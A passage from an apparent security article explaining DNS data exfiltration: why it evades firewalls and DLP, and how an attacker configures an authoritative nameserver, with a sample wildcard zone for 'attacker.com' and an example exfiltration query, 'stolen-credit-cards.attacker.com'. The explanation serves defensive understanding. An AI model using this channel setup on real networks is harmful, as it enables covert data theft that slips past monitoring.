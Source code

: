* DNS traffic is rarely blocked by firewalls, making detection difficult.
* It blends in with normal network traffic, making it inconspicuous.
* Data Loss Prevention (DLP) systems typically don't monitor DNS traffic.

### The Real Threat of DNS Data Exfiltration

Key reasons why DNS data exfiltration is an effective threat:

1. **Variety of attack scenarios**:
   * **Insider threats**: Used by authorized insiders as a means to exfiltrate data
   * **Final stage of APT attacks**: More dangerously, used as a data exfiltration channel after attackers have already penetrated the network

2. **Detection evasion characteristics**:
   * **Disguised as general traffic**: Exfiltration traffic hides among numerous legitimate DNS queries
   * **Encryption and distribution techniques**: Data encryption and distribution across multiple subdomains make detection difficult
   * **Indirect path**: Unlike direct HTTP/FTP transfers, DNS is often a blind spot in security monitoring

3. **Difficulty in tracing**:
   * Thousands of systems simultaneously generate DNS requests in large networks
   * Requests are forwarded through central DNS servers, complicating source identification
   * Potential routing through compromised intermediate systems
   * Limited DNS log retention periods in most organizations

## The Role of Attacker-Controlled Authoritative Nameservers

In DNS data exfiltration and DNS tunneling attacks, the authoritative nameserver is a core component controlled by the attacker.

**Authoritative nameserver setup process**:
1. **Domain registration**: The attacker legitimately registers a domain (e.g., `attacker.com`).
2. **Nameserver configuration options**:
   * Direct operation of a DNS server by the attacker (complete control and log access)
   * Using DNS services provided by domain registrars (management through web interface)
   * Using third-party DNS hosting services (CloudFlare, AWS Route53, etc.)

3. **DNS record configuration**: The attacker sets up necessary records for the domain:
   ```
   # NS records for authority delegation
   attacker.com.    IN    NS    ns1.attacker.com.
   attacker.com.    IN    NS    ns2.attacker.com.
   
   # Wildcard record for data collection
   *.attacker.com.  IN    A     192.168.0.1
   ```

**Data exfiltration mechanism**:
1. An infected internal system sends a DNS query containing encoded data:
   ```
   stolen-credit-cards.attacker.com
   ```
